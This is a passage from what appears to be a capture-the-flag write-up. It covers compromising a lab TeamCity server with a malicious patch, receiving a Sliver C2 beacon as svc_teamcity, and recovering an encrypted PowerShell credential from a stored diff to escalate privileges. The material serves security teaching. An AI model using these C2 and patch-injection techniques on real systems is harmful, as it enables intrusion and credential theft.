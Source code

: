 So now all we need to do is upload the patch file and wait for `sliver` to get a callback from the server.

```bash
[*] Beacon bc711cd7 PLANNED_MIGRANT - 10.129.229.190:60617 (dc01) - windows/amd64 - Wed, 27 Dec 2023 03:09:09 CET
```

So we can see that we got a session as `svc_teamcity`

```bash
sliver (ESTIMATED_CULTIVATOR) > whoami

Logon ID: CODER\svc_teamcity
[*] Current Token ID: CODER\svc_teamcity
sliver (ESTIMATED_CULTIVATOR) >
```


## Privilege Escalation to e.black
#### Shell as e.black
##### Recover the Secure String

After a lot time enumrating i found he the folder that saved our patches. We can see that `101.changes.diff` is from 2022 and the rest of patches are these that i uploaded on the server. 

```bash
PS C:\ProgramData\JetBrains\TeamCity\system\changes> ls
ls
Directory: C:\ProgramData\JetBrains\TeamCity\system\changes


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/8/2022   2:18 PM           1707 101.changes.diff
-a----       12/26/2023   5:45 PM            247 201.changes.diff
-a----       12/26/2023   5:48 PM            247 202.changes.diff
-a----       12/26/2023   5:48 PM            334 203.changes.diff
-a----       12/26/2023   5:58 PM            323 204.changes.diff
-a----       12/26/2023   5:58 PM            323 205.changes.diff
-a----       12/26/2023   6:00 PM            323 206.changes.diff
-a----       12/26/2023   6:03 PM            323 207.changes.diff
-a----       12/26/2023   6:07 PM            323 208.changes.diff
-a----       12/26/2023   6:10 PM            323 209.changes.diff
-a----       12/26/2023   6:18 PM            333 210.changes.diff
-a----       12/26/2023   6:18 PM            333 211.changes.diff
```

*Content of 101.changes.diff*

```diff
diff --git a/enc.txt b/enc.txt
new file mode 100644
index 0000000..d352634
--- /dev/null
+++ b/enc.txt
@@ -0,0 +1,2 @@
+76492d1116743f0423413b16050a5345MgB8AGoANABuADUAMgBwAHQAaQBoAFMAcQB5AGoAeABlAEQAZgBSAFUAaQBGAHcAPQA9AHwANABhADcANABmAGYAYgBiAGYANQAwAGUAYQBkAGMAMQBjADEANAAwADkAOQBmADcAYQBlADkAMwAxADYAMwBjAGYAYwA4AGYAMQA3ADcAMgAxADkAYQAyAGYAYQBlADAAOQA3ADIAYgBmAGQAN
+AA2AGMANQBlAGUAZQBhADEAZgAyAGQANQA3ADIAYwBjAGQAOQA1ADgAYgBjAGIANgBhAGMAZAA4ADYAMgBhADcAYQA0ADEAMgBiAGIAMwA5AGEAMwBhADAAZQBhADUANwBjAGQANQA1AGUAYgA2AGIANQA5AGQAZgBmADIAYwA0ADkAMgAxADAAMAA1ADgAMABhAA==
diff --git a/key.key b/key.key
new file mode 100644
index 0000000..a6285ed
--- /dev/null
```